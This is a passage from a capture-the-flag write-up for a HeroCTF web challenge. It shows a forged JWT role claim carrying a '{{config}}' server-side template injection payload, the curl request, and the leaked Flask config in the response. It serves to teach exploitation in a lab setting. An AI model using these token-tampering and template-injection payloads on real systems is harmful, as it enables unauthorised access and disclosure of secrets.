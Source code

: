 ```bash
* Closing connection 0
Welcome admin !
```

Yay! We are logged in as admin!

But... we don't have the flag...

### Third Lead: Injection / RCE

Since we don't have much information about the challenge and the console is disabled, we can assume that there is some kind of injection vulnerability.

The only moment in the challenge where I saw user input reflected in the server response is when accessing the `/adminPage` endpoint with a valid identifier (`Welcome admin!`) or an invalid one (`Invalid token`).

I thought, maybe the server-side control is a simple comparison like this:

```python
if role === "key":
    return "Invalid token"
else:
    return "Welcome " + role + "!"
```

If that's the case, we can use an injection to execute arbitrary code.

To test this hypothesis, I used the following payload:

```bash
{
    "role": "{{config}}"
}
```

![JWT Config](/images/heroctfv5/web/flask_jwt_config.png)

```bash
curl 'http://dyn-06.heroctf.fr:13825/adminPage' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3tjb25maWd9fSJ9.Jwj89LzEaeWS3JpNQd62PMq9piL4RspA1ixc3Rpgkv8' -v
*   Trying 139.162.183.244:13825...
* Connected to dyn-06.heroctf.fr (139.162.183.244) port 13825 (#0)
> GET /adminPage HTTP/1.1
> Host: dyn-06.heroctf.fr:13825
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3tjb25maWd9fSJ9.Jwj89LzEaeWS3JpNQd62PMq9piL4RspA1ixc3Rpgkv8
>
< HTTP/1.1 403 FORBIDDEN
< Server: Werkzeug/2.3.4 Python/3.10.6
< Date: Sun, 14 May 2023 01:23:37 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 1145
< Connection: close
<
Sorry but you can't access this page, you're a '&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;SECRET_KEY&#39;: None, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: None, &#39;JSON_SORT_KEYS&#39;: None, &#39;JSONIFY_PRETTYPRINT_REGULAR&#* Closing connection 0
```